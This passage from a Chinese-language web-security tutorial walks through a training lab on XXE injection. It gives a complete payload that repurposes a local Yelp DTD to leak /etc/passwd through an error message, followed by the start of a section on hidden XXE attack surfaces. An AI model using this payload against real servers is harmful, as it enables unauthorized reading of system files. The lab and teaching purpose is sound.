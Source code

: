6、涉及实验：<br/> 实验9：利用XXE通过改变本地DTD的用途来检索数据


---


---


> 
<h3>实验9：利用XXE通过改变本地DTD的用途来检索数据</h3>
信息：
本实验有一个"Check stock"（检查库存）功能，该功能可以解析XML输入，但不显示结果。
解决实验：请触发包含/etc/passwd文件内容的错误消息。
需要引用服务器上现有的DTD文件，并从中重新定义实体
使用GNOME桌面环境的系统通常在/usr/share/yelp/dtd/docbookx.dtd有一个DTD，其中包含一个名为ISOamso的实体。
<hr/>
part1:
访问一个产品页面，点击“检查库存”，并在Burp Suite中拦截由此产生的POST请求。

<hr/>
part2: 
XXE注入<br/>  
<pre><code>在XML声明和stockCheck元素之间插入以下参数实体定义：
&lt;!DOCTYPE message [
&lt;!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"&gt;
&lt;!ENTITY % ISOamso '
&lt;!ENTITY &amp;#x25; file SYSTEM "file:///etc/passwd"&gt;
&lt;!ENTITY &amp;#x25; eval "&lt;!ENTITY &amp;#x26;#x25; error SYSTEM &amp;#x27;file:///nonexistent/&amp;#x25;file;&amp;#x27;&gt;"&gt;
&amp;#x25;eval;
&amp;#x25;error;
'&gt;
%local_dtd;
]&gt;</code></pre>
这将导入Yelp DTD，然后重新定义ISOamso实体，触发包含/etc/passwd文件内容的错误消息

 <img alt="" height="414" src="https://img-blog.csdnimg.cn/a5b576880630459195bddec1463577fb.png" width="1200"/>



---


<br/>  

---


---


## 五、查找XXE注入的隐藏攻击面

> 
<h3>1、简述：</h3>
XXE注入漏洞的攻击面在许多情况下是显而易见的，因为应用程序的正常HTTP通信量包括含有XML格式数据的请求。在其他情况下，攻击面不太明显。但如果在正确的地方查看，会发现XXE攻击出现在不包含任何XML的请求中
